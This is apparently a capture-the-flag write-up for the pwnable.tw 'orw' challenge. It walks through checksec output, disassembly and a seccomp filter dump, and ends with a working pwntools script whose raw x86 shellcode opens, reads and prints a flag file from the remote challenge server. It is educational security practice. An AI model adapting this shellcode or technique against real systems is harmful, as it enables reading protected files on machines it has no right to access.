# [orw.md](orw.md)

# ORW write-up

Starting this challenge I ran `pwn checksec` on the program to get the info on the security measures for the binary:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

After running the binary I quickly realized these security measures didn’t matter. Running the binary in GDB gave me the functionality of the program: `disass main`

```
0x08048548 <+0>:     lea    ecx,[esp+0x4]
0x0804854c <+4>:     and    esp,0xfffffff0
0x0804854f <+7>:     push   DWORD PTR [ecx-0x4]
0x08048552 <+10>:    push   ebp
0x08048553 <+11>:    mov    ebp,esp
0x08048555 <+13>:    push   ecx
0x08048556 <+14>:    sub    esp,0x4
0x08048559 <+17>:    call   0x80484cb <orw_seccomp>
0x0804855e <+22>:    sub    esp,0xc
0x08048561 <+25>:    push   0x80486a0
0x08048566 <+30>:    call   0x8048380 <printf@plt>
0x0804856b <+35>:    add    esp,0x10
0x0804856e <+38>:    sub    esp,0x4
0x08048571 <+41>:    push   0xc8
0x08048576 <+46>:    push   0x804a060
0x0804857b <+51>:    push   0x0
0x0804857d <+53>:    call   0x8048370 <read@plt>
0x08048582 <+58>:    add    esp,0x10
0x08048585 <+61>:    mov    eax,0x804a060
0x0804858a <+66>:    call   eax
0x0804858c <+68>:    mov    eax,0x0
0x08048591 <+73>:    mov    ecx,DWORD PTR [ebp-0x4]
0x08048594 <+76>:    leave
0x08048595 <+77>:    lea    esp,[ecx-0x4]
0x08048598 <+80>:    ret
```

Reading this I found that the program quite literally saved your input into memory then called that section of memory. There is also a seccomp function called as well. Seccomp I learned is a function filtering solution that whitelists only certain functions for use within the program. There’s a special tool called `seccomp-tools` that allows you to see what functions are allowed in the program.

`seccomp-tools dump ./orw`

```
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
 0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
 0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
 0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
 0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
 0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
 0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
 0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

This showed me that I needed to use open/read/write in my shellcode to run the program.

 So I tried running some shellcode only to find out that the binary they gave me was compiled so that the shellcode was copied into non-executable memory so whenever it gets called it segfaults. I knew that it had to be able to run on the server so I just created some shellcode that would read the contents of `/home/orw/flag` into some empty memory then write 40 bytes from the buffer to `stdout` so I could read it. After a ton of tweaking of the shellcode, I was able to get a response from the server with the flag.

### Program:

```
#! /usr/bin/env python
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
shellcode = b"j\x05Xhag\x00\x00hw/flhe/orh/hom1\xc9\x99T[\xcd\x80j\x03Xj\x03[h\x00\xa5\x04\x08Yj2Z\xcd\x80j\x04Xj\x01[h\x00\xa5\x04\x08Yj2Z\xcd\x80"
p = remote("chall.pwnable.tw", 10001)
p.recv()
p.sendline(shellcode)
p.interactive()
```

In the interactive I was able to get the flag:

```
[+] Opening connection to chall.pwnable.tw on port 10001: Done
[*] Switching to interactive mode
FLAG{EXAMPLE_FLAG}
\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```
